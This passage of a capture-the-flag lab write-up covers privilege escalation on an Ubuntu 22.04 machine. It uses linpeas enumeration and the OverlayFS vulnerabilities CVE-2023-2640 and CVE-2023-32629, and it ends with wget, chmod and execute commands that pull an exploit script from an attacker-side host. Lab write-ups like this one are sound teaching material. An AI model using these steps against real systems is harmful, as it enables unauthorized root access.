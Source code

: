     ![Alt text](.screenshots/user-flag.png)


* **Note: You can download linpeas.sh directly from this repo or check the Github link for the original project in the resources and links section at the end for more information.**

----------------------------------------------------------------------------------------------------------------------------------------------------    
      
 ## Privilege Escalation (PE)
   
----------------------------------------------------------------------------------------------------------------------------------------------------     

- **In this section of the writeup we will be attempting to find a way to escalate our privileges to move vertically. Our next target will be root user enabling us to take total control of the target and reveal the root flag.**

    - **Just like we did earlier, we download and run linpeas.sh to see what are we dealing with and try finding the correct approach to gain root access on this system.**

    - **After running linpeas, using the generated information let's first do initial system checks. It's recommended that we first start by gathering and researching basic system information like OS version, services vailable to user, current user permission, etc. to check for vulnerabilites before diving deeper and complicating things. If we don't find any obvious way to escalate our privileges then we dig deeper.**

    - **Searching for PE exploits related to Ubuntu 22.04 reveals a recent exploit that was discovered utilizing OverlayFS that might lead us to escalate our privileges and gain root access if the system is vulnerable (CVE-2023-2640 & CVE-2023-32629). So let's chase this lead and see where it will take us and move from there.**

    - **After reading about the overlayfs exploit and modifiying minor variables in the exploit to see if we can get it to work. I wrote the exploit as bash executable (gameoverlay.sh), to make it easier by downloading it onto the target machine to execute it using the below list of commands.**

           $ wget http://10.10.1x.xx/gameoverlay.sh
           $ chmod +x gameoverlay.sh
           $ ./gameoverlay.sh 
